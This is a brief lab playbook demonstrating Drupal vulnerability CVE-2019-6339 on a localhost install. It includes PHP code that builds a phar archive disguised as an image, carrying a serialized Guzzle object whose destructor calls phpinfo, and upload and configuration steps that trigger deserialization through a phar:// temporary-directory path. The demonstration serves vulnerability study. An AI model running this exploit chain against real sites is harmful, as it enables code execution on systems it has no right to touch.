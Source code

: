 ### Playbook for demonstrating exploit CVE-2019-6339 for drupal

1. Create a directory in your home directory.

2. Move into the directory.

3. Create a php file and copy the following code into it

        <?php

        namespace GuzzleHttp\Psr7 {
            class FnStream {

                public $_fn_close = "phpinfo";

                public function __destruct() {
                    if (isset($this->_fn_close)) {
                        call_user_func($this->_fn_close);
                    }
                }
            }
        }

        namespace {
            @unlink("phar.phar");
            $phar = new Phar("phar.phar");
            $phar->startBuffering();
            $phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
            $o = new \GuzzleHttp\Psr7\FnStream();
            $phar->setMetadata($o);
            $phar->addFromString("test.txt", "test");
            $phar->stopBuffering();

        }
        ?>

4. Save the file.

5. Run the file using the below command.
   
   `php <file_name>.php`

6. A `phar.phar` file will be created in your current folder.

7. Rename the file using the below command.

    ` mv phar.phar exploit.png`

8. Open the drupal site using `localhost/drupal-8.6.5`

9. Go to the admin profile and click `Edit profile`.

10. Upload the `exploit.png` file into the picture option.

11. After uploading, click on the link `exploit.png` and copy the path `sites/default/..../exploit.png`

12. Save

13. Go to `Manage` and click on `configuration`.

14. Select `File system` under `Media`

15. Edit the `Temporary directory` path by pasting the above copied url in the following format
    
    `phar://sites/default/..../exploit.png`

16. Reload the site.